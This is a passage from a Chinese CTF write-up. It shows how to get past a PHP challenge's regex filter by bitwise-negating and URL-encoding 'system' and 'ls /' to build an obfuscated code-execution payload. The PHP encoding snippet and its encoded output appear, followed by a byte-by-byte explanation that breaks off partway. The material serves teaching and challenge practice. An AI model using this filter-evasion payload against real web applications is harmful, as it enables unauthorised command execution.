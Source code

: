 总之，题目没有过滤 `|` 以及`~`，我们可以考虑使用 或 操作或者 取反 操作，这里使用取反

首先对一串代码进行取反，然后再进行url编码，在发送请求的时候将其再次取反即可。因为取反之后基本都是不可见字符，所以基本上不会被正则匹配到

构造`system('ls /')`，因为没有过滤括号，我们只对括号内外分别取反再编码再取反即可：

```
<?php
echo urlencode(~ 'system'); // 输出: %8C%86%8C%8B%9A%92
echo "\n";
echo urlencode(~ 'ls /');   // 输出: %93%8C%DF%D0
?>
```

```
%8C%86%8C%8B%9A%92
%93%8C%DF%D0
```

### 1️⃣ **按位取反 (bitwise NOT) 的处理**

- 对 `'system'` 和 `'ls /'` 进行按位取反，实际上是对它们的每个字节按位取反。

  - `'system'` 字符的 ASCII 码为：

    ```
    s = 0x73
    y = 0x79
    s = 0x73
    t = 0x74
    e = 0x65
    m = 0x6D
    ```

    对每个字符进行按位取反后得到：

    ```
    s = ~0x73 = 0x8C
    y = ~0x79 = 0x86
    s = ~0x73 = 0x8C
    t = ~0x74 = 0x8B
    e = ~0x65 = 0x9A
    m = ~0x6D = 0x92
    ```

    所以 `'system'` 被按位取反后变成了：

    ```
    0x8C 0x86 0x8C 0x8B 0x9A 0x92
    ```

  - `'ls /'` 字符的 ASCII 码为：

    ```
    l = 0x6C
    s = 0x73
    (space) = 0x20
    / = 0x2F
    ```
